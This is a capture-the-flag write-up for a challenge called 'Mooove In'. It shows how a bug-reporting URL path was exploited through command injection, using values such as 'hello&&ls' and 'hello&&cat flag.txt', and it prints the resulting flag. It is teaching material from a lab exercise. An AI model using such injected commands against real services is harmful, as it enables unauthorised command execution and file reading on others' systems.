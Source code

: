 # Mooove In

**Challenge URL**: `https://bugs.oasis.cryptonite.live/`


In this challenge, we are tasked with exploring a bug reporting system that seems to handle inputs in the URL path.

- URL: `https://bugs.oasis.cryptonite.live/`<br>Response: `No bug reported. Report at /report_bugs/{bug}`

- URL: `https://bugs.oasis.cryptonite.live/report_bugs/%7Bbug%7D`<br>Response: `"%7Bbug%7D" reported to admin && sent to command store for further processing.`

 ### Initial Observations
The encoded `{bug}` is a URL-encoded version of `%7Bbug%7D`, suggesting that we can submit a "bug" or input into the system by manipulating the URL after `/report_bugs/`.

My initial testing revealed the following:

- **Whatever I append to the URL after `/report_bugs/`** is reflected on the screen in double quotes in the format:  
  `"{submitted_value}" reported to admin && sent to command store for further processing`.

- **Semicolon (`;`) behavior**:  
  When a semicolon (`;`) is added after the input, the portion after the semicolon does not appear on the screen. This hinted at potential command execution.

- **Double ampersand (`&&`) behavior**:  
  If `&&` is included in the input, the portion before the `&&` is displayed, but the part after `&&` does not appear. Instead, the system responds with an error message: `Command not found`.
  This behavior strongly hinted at possible command injection.

### Exploit Process
Given the command injection hint, I proceeded as follows:

1. **Command Injection Testing**:  
   I attempted to inject a command by appending `&&ls` to the URL, like so:  
   `https://bugs.oasis.cryptonite.live/report_bugs/hello&&ls`.

2. **Result**:  
   The command successfully listed three files in the directory:
   - `file1.txt`
   - `file2.txt`
   - `flag.txt`

3. **Capturing the Flag**:  
   I then attempted to read the contents of the flag by modifying the URL to execute the `cat` command:  
   `https://bugs.oasis.cryptonite.live/report_bugs/hello&&cat flag.txt`.

4. **Flag Retrieved**:  
   The flag was successfully retrieved and displayed:  
   ```
   OASIS{M0v1ng_f0rw4rd_0n3_f1l3_4t_a_t1me}
   ```
   
- **No Screenshots**: Unfortunately, I was unable to provide screenshots for this write-up because the Oasis website was taken down.
